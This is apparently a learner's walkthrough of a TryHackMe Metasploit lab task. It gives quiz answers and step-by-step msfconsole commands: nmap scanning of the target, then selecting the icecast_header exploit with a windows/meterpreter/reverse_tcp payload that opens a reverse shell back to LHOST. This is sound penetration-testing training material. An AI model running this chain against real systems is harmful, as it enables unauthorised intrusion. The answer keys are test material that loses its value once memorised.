

Task 5
Metasploit comes with a built-in way to run nmap and feed it's results directly into our database. Let's run that now by using the command db_nmap -sV MACHINE_IP

What service does nmap identify running on port 135?
• msrpc
Let's go ahead and see what information we have collected in the database. Try typing the command hosts into the msfconsole now.
How about something else from the database, try the command services now.
One last thing, try the command vulns now. This won't show much at the current moment, however, it's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged quickly and powerfully.
Now that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type use followed by a unique string found within only the target exploit. For example, try this out now with the following command use icecast. What is the full path for our exploit that now appears on the msfconsole prompt? *This will include the exploit section at the start
• exploit/windows/http/icecast_header
While that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command search multi/handler.
Go ahead and run the command use NUMBER_NEXT_TO exploit/multi/handler wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.
What is the name of the column on the far left side of the console that shows up next to 'Name'?
• #
Now type the command use NUMBER_FROM_PREVIOUS_QUESTION. This is the short way to use modules returned by search results.
Next, let's set the payload using this command set PAYLOAD windows/meterpreter/reverse_tcp. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command set LHOST YOUR_IP_ON_TRYHACKME. You might have to check your IP using the command ip addr, it will likely be your tun0 interface.
Let's go ahead and return to our previous exploit, run the command use icecast to select it again.
One last step before we can run our exploit. Run the command set RHOSTS MACHINE_IP to tell Metasploit which target to attack.
Once you're set those variables correctly, run the exploit now via either the command exploit or the command run -j to run this as a job.
• after running the exploit the prompt changes from msf6 to meterpreter, indicating that a session has been started
Once we've started this, we can check all of the jobs running on the system by running the command jobs
After we've established our connection in the next task, we can list all of our sessions using the command sessions. Similarly, we can interact with a target session using the command sessions -i SESSION_NUMBER